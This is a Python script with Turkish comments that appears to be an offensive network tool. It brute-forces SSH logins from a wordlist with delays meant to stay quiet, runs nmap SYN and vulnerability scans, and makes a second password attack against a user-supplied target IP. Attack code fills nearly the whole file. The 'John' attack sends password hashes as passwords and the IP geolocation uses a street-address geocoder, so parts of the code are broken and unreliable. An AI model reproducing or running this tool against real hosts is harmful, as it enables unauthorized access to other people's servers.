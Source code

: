 import logging
import json
import os
import smtplib
import paramiko
import nmap
import random
import time
from datetime import datetime
from passlib.hash import john
from geopy.geocoders import Nominatim

# Loglama ayarları
def setup_logger(log_file):
    logging.basicConfig(
        filename=log_file,
        filemode='a',
        format='%(asctime)s - %(levelname)s - %(message)s',
        level=logging.INFO
    )

# Log mesajı kaydetme
def log_event(event_message, level='info'):
    if level == 'info':
        logging.info(event_message)
    elif level == 'warning':
        logging.warning(event_message)
    elif level == 'error':
        logging.error(event_message)
    elif level == 'debug':
        logging.debug(event_message)

# Brute-force SSH saldırısı (sessiz ve zaman gecikmeli)
def brute_force_ssh(ip, username, wordlist, delay=2):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    for password in wordlist:
        try:
            ssh.connect(ip, username=username, password=password, timeout=3)
            log_event(f"Başarılı SSH bağlantısı: {username}@{ip} - Şifre: {password}", level='info')
            ssh.close()
            return password  # Başarılı şifre bulundu
        except paramiko.AuthenticationException:
            log_event(f"SSH giriş başarısız: {password}", level='debug')
            time.sleep(delay)  # Her deneme arasında gecikme ekleniyor
            continue  # Şifre yanlış, denemeye devam et
        except Exception as e:
            log_event(f"SSH brute-force hatası: {e}", level='error')
            return None
    log_event("Brute-force saldırısı tamamlandı ancak doğru şifre bulunamadı.", level='error')
    return None

# Sessiz port taraması (SYN tarama)
def nmap_scan(ip):
    scanner = nmap.PortScanner()
    scanner.scan(ip, '1-1024', arguments='-sS')
    open_ports = []

    for host in scanner.all_hosts():
        for proto in scanner[host].all_protocols():
            ports = scanner[host][proto].keys()
            for port in ports:
                if scanner[host][proto][port]['state'] == 'open':
                    service = scanner[host][proto][port]['name']
                    version = scanner[host][proto][port].get('version', 'unknown')
                    open_ports.append({'port': port, 'service': service, 'version': version})

    return open_ports

# Zafiyet taraması
def vulnerability_scan(ip):
    scanner = nmap.PortScanner()
    scanner.scan(ip, '1-1024', arguments='--script vuln')
    vulnerabilities = []

    for host in scanner.all_hosts():
        for proto in scanner[host].all_protocols():
            ports = scanner[host][proto].keys()
            for port in ports:
                if scanner[host][proto][port]['state'] == 'open':
                    service = scanner[host][proto][port]['name']
                    version = scanner[host][proto][port].get('version', 'unknown')
                    vuln_info = scanner[host][proto][port].get('script', {}).get('vuln', 'No vulnerabilities found')
                    vulnerabilities.append({
                        'port': port, 
                        'service': service, 
                        'version': version,
                        'vulnerabilities': vuln_info
                    })

    return vulnerabilities

# SSH John saldırısı (şifre denemesi)
def john_attack(ip, username, wordlist, delay=2):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    for password in wordlist:
        hash_password = john.hash(password)
        try:
            ssh.connect(ip, username=username, password=hash_password, timeout=3)
            log_event(f"John başarılı SSH bağlantısı: {username}@{ip} - Şifre: {hash_password}", level='info')
            ssh.close()
            return password  # Başarılı şifre bulundu
        except paramiko.AuthenticationException:
            log_event(f"John SSH giriş başarısız: {password}", level='debug')
            time.sleep(delay)  # Her deneme arasında gecikme ekleniyor
            continue  # Şifre yanlış, denemeye devam et
        except Exception as e:
            log_event(f"John brute-force hatası: {e}", level='error')
            return None
    log_event("John brute-force saldırısı tamamlandı ancak doğru şifre bulunamadı.", level='error')
    return None

# Konum belirleme (Geolocation API)
def find_location(ip):
    try:
        geolocator = Nominatim(user_agent="geoapiExercises")
        location = geolocator.geocode(ip)
        if location:
            return f"Lat: {location.latitude}, Lon: {location.longitude}"
        else:
            return "Konum bulunamadı."
    except Exception as e:
        log_event(f"Konum belirleme hatası: {e}", level='error')
        return None

# Rapor oluşturma ve kaydetme
def create_security_report(open_ports, vulnerabilities, successful_attacks, test_durations, location):
    report = {
        'Report Generated At': datetime.now().strftime("%Y-%m-%d %H:%M:%S"),
        'Open Ports': open_ports,
        'Found Vulnerabilities': vulnerabilities,
        'Successful Attacks': successful_attacks,
        'Test Durations': test_durations,
        'Location': location
    }
    return report

# Ana program
if __name__ == "__main__":
    log_file = 'security_tests.log'
    setup_logger(log_file)

    # SSH brute-force saldırısı
    target_ip = input("Brute-force yapılacak hedef IP'yi girin: ")
    username = input("Hedef SSH kullanıcısını girin: ")
    wordlist_file = input("Wordlist dosyasının yolunu girin (şifre listesi): ")
    
    try:
        with open(wordlist_file, 'r') as file:
            wordlist = [line.strip() for line in file.readlines()]
    except FileNotFoundError:
        log_event("Wordlist dosyası bulunamadı.", level='error')
        exit()

    start_time = datetime.now()
    
    # Brute-force SSH saldırısı
    successful_password = brute_force_ssh(target_ip, username, wordlist)
    
    # Nmap port taraması
    open_ports = nmap_scan(target_ip)
    
    # Zafiyet taraması
    vulnerabilities = vulnerability_scan(target_ip)
    
    # John saldırısı
    successful_john_attack = john_attack(target_ip, username, wordlist)
    
    # Konum belirleme
    location = find_location(target_ip)
    
    end_time = datetime.now()
    duration = (end_time - start_time).total_seconds()

    # Güvenlik raporu oluşturma
    report = create_security_report(
        open_ports, 
        vulnerabilities, 
        {'SSH Brute-force': successful_password, 'John Attack': successful_john_attack}, 
        {'Test Duration': duration},
        location
    )
    
    # Raporu JSON formatında kaydetme
    with open('security_report.json', 'w') as report_file:
        json.dump(report, report_file, indent=4)
    
    log_event("Güvenlik testi tamamlandı. Rapor oluşturuldu ve kaydedildi.", level='info')
    print("Güvenlik testi tamamlandı. Rapor oluşturuldu ve 'security_report.json' dosyasına kaydedildi.")